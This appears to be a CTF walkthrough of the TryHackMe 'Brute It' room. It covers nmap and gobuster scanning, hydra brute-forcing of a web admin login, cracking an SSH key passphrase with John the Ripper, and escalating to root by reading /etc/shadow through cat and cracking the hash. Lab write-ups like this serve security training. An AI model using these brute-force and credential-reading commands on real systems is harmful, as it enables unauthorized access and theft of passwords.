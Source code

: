 # Brute It
![image](https://user-images.githubusercontent.com/115979342/203993752-2b820e22-aed6-4205-843d-5391e1ed4b06.png)

https://tryhackme.com/room/bruteit

### 1.Reconnaissance

1.nmap and gobuster

```
nmap -sC -sV(-sS -sV) MACHINE_IP
gobuster dir -u MACHINE_IP  -w /usr/share/wordlists/dirb/common.txt -t 50 
```
![image](https://user-images.githubusercontent.com/115979342/203993942-75e302be-858c-461a-a354-eaba170d8738.png)


![image](https://user-images.githubusercontent.com/115979342/203993861-290d1ac8-7ed1-4be8-a8ea-9e683cd7ed54.png)

2.answers

1.Search for open ports using nmap.
How many ports are open?

```
2
```

2.What version of SSH is running?

```
OpenSSH 7.6p1 
```

3.What version of Apache is running?

```
2.4.29
```

4.Which Linux distribution is running?

```
Ubuntu
```

Search for hidden directories on web server.
What is the hidden directory?

```
/admin
```

### 2.Getting a shell

Find a form to get a shell on SSH.


1.What is the user:password of the admin panel?
![image](https://user-images.githubusercontent.com/115979342/203994087-e30fa23a-0260-431e-a775-62fbd409fd4d.png)


At first I tried the universal password but the background have set bypassed
So I turned to tools ﻿--hydra
Be careful when using the tool 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt MACHINE_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
```
![image](https://user-images.githubusercontent.com/115979342/203994230-a2eea4d3-2edd-4045-99a1-c7100fe89356.png)

"/:username=^USER^&password=^PASS^:F=incorrect"
If it is a directory, it must end with / ("/admin/:)
Or for a specific filename (index.php:)
The error message is set according to different situations

Login to interface with password
And get the answers

2.Crack the RSA key you found. What is John's RSA Private Key passphrase?

We got the rsa file.
![image](https://user-images.githubusercontent.com/115979342/203994404-efaa432a-ffc4-4111-b692-9dd98b81e789.png)


https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/

All we have to do is run it against the private key and direct the results to a new hash file using the ssh2john Python tool:

```unknown
python ssh2john.py id_rsa > id_rsa.hash
```

Next, we'll use [John](https://null-byte.wonderhowto.com/how-to/use-john-ripper-metasploit-quickly-crack-windows-hashes-0200322/) to crack the password. 

```unknown
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

SSH into the Target

We can [SSH](https://null-byte.wonderhowto.com/how-to/set-up-ssh-server-with-tor-hide-from-shodan-hackers-0194455/) into the target using the **-i** option to specify a private key for authentication:

```unknown
ssh -i id_rsa john@MACHINE_IP
```

And we get an error. It won't allow us to use the key if permissions are too open, so all we have to do is set the permissions to be more restricted:

```unknown
 chmod 400 id_rsa
```

Successfully logged in as John

3.user.txt

4.Web flag

### 3.Privilege Escalation

https://tryhackme.com/room/linuxprivesc

View vulnerabilities that can be exploited to escalate privileges

find /bin/cat 

Tools: https://gtfobins.github.io/gtfobins/cat/

Elevate privileges View root password
 
 LFILE=/etc/shadow

cat "$LFILE"

Use john to crack the hash password

![image](https://user-images.githubusercontent.com/115979342/203994731-2f9ed1ba-103f-4522-9b1e-edda7c694aca.png)
